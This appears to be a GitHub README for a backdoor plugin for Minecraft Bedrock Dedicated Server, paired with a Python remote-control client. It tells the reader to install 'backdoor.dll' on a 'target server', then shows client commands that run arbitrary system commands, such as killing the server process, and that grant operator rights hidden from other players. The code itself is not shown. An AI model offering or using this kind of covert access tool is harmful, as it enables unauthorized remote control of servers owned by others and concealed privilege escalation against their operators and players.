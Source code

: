 # backdoor

A backdoor plugin for Bedrock Dedicated Server

## Usage
1. install ``backdoor.dll`` to the target server
2. Use the backdoor client ``client.py`` for remote control after the target server is opened.

## Run the backdoor client
After installing Python, run the program from the command line with the following command:

```
python client.py
```

Enter the server IP and port
When you start the program, you will be prompted to enter the IP address and port number of the server in the format IP address:port number (e.g. 127.0.0.1:19132)

Example:

```
Please input server ip:port like 127.0.0.1:19132
114.51.41.91:9810
```

Client Functions
The client program has the following functions:

``scmd [cmd]`` - executes system commands
``gcmd [cmd]`` - executes game commands
``perm [player name: case sensitive] [level: 0~3] [0: client hide change | 1: client show change]`` - set player permission level
``q`` - Quit the program

Please enter the appropriate command to perform the appropriate action as needed. For example, to execute the game command ``kick WillowSauceR``, enter the following command:

```
>>> kick WillowSauceR
```

Execute the system command ``taskkill /F /IM bedrock_server.exe``
```
>>> scmd taskkill /F /IM bedrock_server.exe
```

Set permissions for players in the game
Permission level: 0 for normal players, greater than 0 for OP
Show/hide: hide permission changes from other players and yourself, not discoverable within the game
The following command sets OP permissions for player ``WillowSauceR`` and hides it from other players
```
>>> perm WillowSauceR 1 0
```

To exit the program, enter the following command:

```
>>> q
```
